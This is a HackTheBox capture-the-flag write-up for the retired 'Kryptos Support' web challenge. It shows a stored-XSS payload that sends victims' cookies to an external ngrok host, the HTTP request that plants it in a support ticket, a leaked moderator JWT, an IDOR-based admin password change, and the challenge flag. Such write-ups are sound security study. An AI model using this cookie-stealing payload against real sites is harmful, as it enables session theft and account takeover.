 ```yaml
---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Retired: true
Status: 3. Complete
tags:
  - IDOR
  - insecure-password-change
  - XSS
---
```

>[!quote]
> *The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?*****


# Set up

No setup, the challenge is started on-demand.

# Information Gathering

- Browsed the home page:
    
    ![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007.png)
    
- Browsed the login page:
    
    ![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%201.png)
    

# The Bug

- Cross Site Scripting
- IDOR

# Exploitation

XSS payload:

```jsx
<img src=x onerror=this.src='https://bfd1-93-51-54-187.eu.ngrok.io/?'+document.cookie;>
```

Sent the payload to moderators and leaked a cookie:

```
POST /api/tickets/add HTTP/1.1
Host: 157.245.33.77:30340
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://157.245.33.77:30340/
Content-Type: application/json
Origin: http://157.245.33.77:30340
Content-Length: 101
Connection: close

{"message":"<img src=x onerror=this.src='https://bfd1-93-51-54-187.eu.ngrok.io/?'+document.cookie;>"}
```

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%202.png)

```
?session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI3MjE3MDN9.arGluuqoLIj6d8GVrrKd_i1ECdd5mPGHaf4NSrCe3-g
```

Decoded JWT token:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%203.png)

Logged in using the leaked session cookie:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%204.png)

Changed moderator password:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%205.png)

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%206.png)

Exploited an Insecure Direct Object Reference to change admin password and login:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%207.png)

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%208.png)

# Flag

>[!success]
>`HTB{x55_4nd_id0rs_ar3_fun!!}`


